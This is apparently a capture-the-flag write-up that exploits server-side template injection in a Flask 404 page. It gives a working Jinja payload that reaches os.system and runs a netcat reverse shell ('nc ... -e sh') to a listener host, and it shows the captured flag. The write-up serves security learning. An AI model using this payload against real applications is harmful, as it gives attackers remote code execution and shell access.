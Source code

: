# Paths

One of the bullet points on the homepage of the website says "Fix URL Issue". If we start plugging in random URLs, we might be able to notice that our URL is echo'd back to us:

```
http://localhost:7500/abcd
404 Not Found: The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.
```

A common vulnerability with templated websites is called Server-Side Template Injection (SSTI). SSTI can easily be tested with the string {{ 7 * '7' }}. A request to http://localhost:7500/{{ 7 * '7' }} returns:

```
http://localhost:7500/7777777
404 Not Found: The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.
```

Based on the response, this indicates that the service is a Flask application that is vulnerable to SSTI. We can abuse this to get arbitrary code execution.

By traversing internal python classes, we can import os and call system on "nc 172.17.0.1 1337 -e sh" to pop a shell.

```Python
injection  = '''{{ ''.__class__.mro()[1].__subclasses__()[0][0]'''
injection += '''.__init__.__globals__['__builtins__']['__import__']'''
injection += '''('os').system("nc 172.17.0.1 1337 -e sh") }}'''
r = requests.get(f"http://{HOST}:{PORT}/" + injection)
```

Catching the callback:

```
Connection from 172.17.0.2:33465
cat flag.txt
CUCTF{SSTI_m4k35_E4sy_c0d3_3x3c}
```
